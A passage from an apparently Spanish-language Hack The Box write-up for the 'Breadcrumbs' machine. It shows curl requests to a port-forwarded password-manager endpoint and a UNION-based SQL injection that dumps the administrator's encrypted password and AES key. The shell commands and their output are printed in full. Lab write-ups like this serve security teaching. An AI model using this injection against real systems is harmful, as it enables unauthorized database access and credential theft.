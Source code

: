 Vemos que cuando se acepta la contraseña este hace un llamado con curl hacia un ruta solicitando una contraseña, podemos intentar hacerlo para obtenerla. Hacermos portforwarding y metemos el domini passmaganer.htb a nuestro /etc/hosts.

```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Breadscrumbs/content$ curl 'http://127.0.0.1:1234/index.php?method=select&username=administrator&table=passwords'
selectarray(1) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
}
```
Parece que está haciendo uso de alguna base de datos para obtener la contraseña, podemos intentar hacer una inyección sql para obtener los demás datos.

```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Breadscrumbs/content$ curl -s "http://127.0.0.1:1234/index.php" -d "method=select&username=administrator' union select group_concat(id, account, password, aes_key) from passwords-- -&table=passwords" 
selectarray(2) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
  [1]=>
  array(1) {
    ["aes_key"]=>
    string(74) "1AdministratorH2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw=k19D193j.<19391("
  }
}
```
Obtenemos la contraseña, podemos descifrarla por medio de cyberchef.

![imagen12](/assets/images/Bread/bread12.png)
